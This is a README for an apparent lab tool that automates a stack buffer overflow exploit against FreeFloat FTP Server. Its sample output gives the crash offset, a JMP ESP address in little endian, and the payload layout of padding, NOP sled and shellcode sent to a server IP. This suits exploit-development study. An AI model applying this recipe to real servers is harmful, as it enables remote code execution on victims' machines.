 # Buffer_helper

* Buffer_Helper.py Help To Test Buffer overflow FTP Server Exploit .

* write by python 2.7

## Required
* generate your own shell code and replace it in the buffer_helper.py

* create your listner use msfconsloe or netcat


### steps 

1- add the string as input you can use any character input .

 * make sure your string input above "300" character.

 * the buffer_helper  will give output the random sting automatically have same length of the input string .

 * input can be  "aaaaaaaaaaaaa or AAAAAAAA or 11111111/22222222"
```
Examples 

[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa 

[+]character length is : 38 

[+]Generated String is: taoeboshifrhuyloeggipydyizkdrqnmtjzxdx

[+]The New character length is: 38


```

2- input the ip address of FTP server and the port .

* buffer_helper will send the data to server .
```
Examples 

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

```

### over write 

3- after the EIP addrres get over write  .


* input the  EIP address as hexadecimal . 7755BBFF or 7755bbff .

* buffer_helper will will get the The ASCII Value make over wirte will print it .

* will print out Exact satch at offset .

```
Examples 

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

```
### little endian network style  . 

* buffer_helper will aske for JMP ESP address.

* input it as hexadecimal 7755BBFF or 7755bbff 

*the buffer_helper will reversed automatically and  prit it as "\xFF\x\bbx\x55\x77"

```
Example:


[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75


```


### attack
* buffer_helper will  management and handling the attack

* calculates automatically and send all payload to server and print out the result.

```
 Example

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```

# All Steps



```
 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        


[+]Enter your reguset:aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

[+]character length is : 399

[+]Generated String is: rxgixmqoraszkfokqpbyexikbraqjossknbkjtlhbzatqmkxggqibjqfqcccvcgazfaxwtqreqzliyhglwnhfiiexhvrpcgiefqwaraqchhjywhxwfvmurdwelikuywgbvelqsxoaivhhykqaajizxwyobfcpfatnhzbwplteeanhbxcvnsnilnfpctlhlopvocmuciezjbyrgdfcspjahklvwrhfnafkammbucrzoljlobqzlsfmgrhikptmryomphwisryixvhrfmxsjcdjmnbagxhqlxpnzxptecckpvwmnscclkkiskhzmggdjkmalzmyjeyobgdscowqzunlgqshbaikplkekpqulpkmelilkqmataboikcgzzzznhurxcldwfnhefbyhy

[+]The New character length is: 399

[+]server ip : 10.195.100.230

[+]server port :21

[+]data send successful...!!!

[+]Enter hexadecimal Crach address: 79726d74

[+]The ASCII Value  is :  tmry

[+]Exact satch at offset :  251

[+] Enter JMP ESP addrsss HEX  : 75c24e5b

[+]little endian JMP ESP  is :  \x5B\x4E\xC2\x75

[+] attack = 251 of "A" + JMP ESP = \x5B\x4E\xC2\x75 + 144 of("\x90")  + shell code

[+]conncet server ip is  :  10.195.100.230

[+]conncet server port is  :  21

[+]WE READY TO ATTACK !![+]

[+]data send successful...!!!

[+]-------------------------{THANK YOU}--------------------------[+]

 ____         __  __             _   _      _                  
| __ ) _   _ / _|/ _| ___ _ __  | | | | ___| |_ __   ___ _ __  
|  _ \| | | | |_| |_ / _ \ '__| | |_| |/ _ \ | '_ \ / _ \ '__| 
| |_) | |_| |  _|  _|  __/ |    |  _  |  __/ | |_) |  __/ |    
|____/ \__,_|_| |_|  \___|_|    |_| |_|\___|_| .__/ \___|_|    
                                             |_|        

```
## Required Software / Setup


ttacking system: Kali Linux

* Victim system: Windows 

* Immunity debugger  https://www.immunityinc.com/products/debugger/

* FloatFTP - The application we are going to exploit  https://archive.org/details/tucows_367516_Freefloat_FTP_Server


## connect me at 

* administrator@jacstory.tech 

* this is first code for me in github

  
* thank you for reading it 
